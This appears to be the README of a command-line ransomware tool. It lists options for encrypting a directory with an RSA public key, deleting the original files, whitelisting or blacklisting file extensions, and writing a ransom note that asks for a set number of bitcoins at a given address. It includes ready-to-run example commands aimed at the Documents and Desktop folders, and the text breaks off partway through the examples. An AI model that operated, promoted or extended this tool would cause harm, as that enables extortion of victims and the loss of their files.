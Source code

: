 ```bash
NAME:
   ransomware encrypt - Encrypts a directory

USAGE:
   ransomware encrypt [command options] [arguments...]

OPTIONS:
   --path value, -p value      Runs the tool on a directory
   --publicKey value           Loads the provided RSA public key in PEM format
   --extBlacklist value        the extension to blacklist (default: ".enc")
   --extWhitelist value        the extension to whitelist
   --skipHidden                skips hidden folders (default: false)
   --dryRun                    encrypts files without deleting originals (default: false)
   --encSuffix value           defines the suffix to add to encrypted files (default: ".enc")
   --addRansom                 if set to true add a ransom note to every encrypted folder (default: false)
   --ransomTemplatePath value  defines where to find the template to use for the ransom note
   --ransomFileName value      defines the name of the ransom file name (default: "IMPORTANT.txt")
   --bitcoinCount value        how many bitcoins to ask as ransom (default: 0)
   --bitcoinAddress value      the bitcoin address to use (default: "<bitcoin address>")
   --help, -h                  show help (default: false)
```

For example if you want to run the tool on the `~/Documents` folder run:

```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Documents
```

This command provides the following options:

- `path`: the path to encrypt. This is required
- `publicKey`: the path of the publicKey PEM file created by the `create-keys` command
- `extBlacklist`: if provided, a comma-separated list of extension to skip. **This feature is useful, to exclude executable like `.exe` files**
- `extWhitelist`: if provided, a comma-separated list of extension to whitelist
- `skipHidden`: if set, skips hidden folders
- `dryRun`: just creates encrypted files without deleting originals
- `encSuffix`: defines a custom extension to set on encrypted files (default `.enc`)
- `addRansom`: if the tool should generate a new ransom.txt file for each encrypted folder
- `ransomTemplatePath`: the path of the template to use as ransom
- `ransomFileName`: the name to give to the ransom file
- `bitcoinCount`: how many bitcoin to ask as ransom
- `bitcoinAddress`: the bitcoin address to use inside the ransom file

### Examples

Just encrypt gif files on Desktop

```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extWhitelist .gif
```

Encrypt everything except `.csv` and `.pdf` files
